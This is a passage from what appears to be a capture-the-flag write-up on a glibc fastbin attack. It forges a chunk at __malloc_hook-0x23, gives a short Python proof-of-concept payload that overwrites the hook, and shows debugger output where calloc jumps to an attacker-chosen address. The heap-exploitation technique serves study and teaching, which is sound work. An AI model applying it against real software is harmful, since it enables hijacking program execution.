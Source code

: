 The heap bins now after using `__malloc_hook-0x23`:
```
──────────────────────────────────────────────────────────────────────────────────────────────────────────── Fastbins for arena 0x7f6de6623b20 ────────────────────────────────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70]  ←  Chunk(addr=0x56188be2c270, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x7f6de6623afd, size=0x78, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x6de6301b00000010]
Fastbins[idx=6, size=0x80] 0x00
```

That chunk now fits in the 0x70 fastbin. So if we make our other allocations also in the 0x70 fastbin then we have preformed the fastbin attack correctly.

The next allocation will be the chunk at 0x56188be2c270.
Then the next allocation after will be our forged chunk which points to 0x7f6de6623afd (`__malloc_hook-0x23`)

We can then use the Fill function the binary gave us like before to write anything at that address. For example, we can use 19 bytes of junk data to overwrite the memory right before the `__malloc_hook` symbol and then the next 8 bytes will write to the `__malloc_hook`

The payload below is a POC for this:
```python=
payload3 = b""
payload3 += b"A"*19
payload3 += b"BBBBBBBB"
```
Now next time we call malloc (or calloc in this case), the hook intercepts and jumps to 0x4242424242424242
```
0x00007ffde2e26248│+0x0018: 0x000055671ca9fa40  →   xor ebp, ebp
0x00007ffde2e26250│+0x0020: 0x00007ffde2e26380  →  0x0000000000000001
0x00007ffde2e26258│+0x0028: 0x000055671ca9fdd1  →   mov QWORD PTR [rbp-0x8], rax
0x00007ffde2e26260│+0x0030: 0x0000000000000000
0x00007ffde2e26268│+0x0038: 0x0000284ff92d03c0  →  0x0000000000000001
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7fbd1b60326b <calloc+667>     and    DWORD PTR [rdx+0x48900000], ecx
   0x7fbd1b603271 <calloc+673>     mov    esi, DWORD PTR [rsp+0x28]
   0x7fbd1b603275 <calloc+677>     mov    rdi, rbp
 → 0x7fbd1b603278 <calloc+680>     call   rax
   0x7fbd1b60327a <calloc+682>     xor    esi, esi
   0x7fbd1b60327c <calloc+684>     test   rax, rax
   0x7fbd1b60327f <calloc+687>     mov    rdx, rbp
   0x7fbd1b603282 <calloc+690>     mov    rdi, rax
   0x7fbd1b603285 <calloc+693>     jne    0x7fbd1b603260 <__libc_calloc+656>
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
*0x4242424242424242 (
   $rdi = 0x000000000000000a,
   $rsi = 0x000055671ca9fdd1 →  mov QWORD PTR [rbp-0x8], rax,
   $rdx = 0x000000000000000b,
   $rcx = 0x00007ffde2e26241 → 0x4000007ffde2e262,
   $r8 = 0x00007ffde2e26242 → 0xfa4000007ffde2e2,
   $r9 = 0x0000000000000000
)
```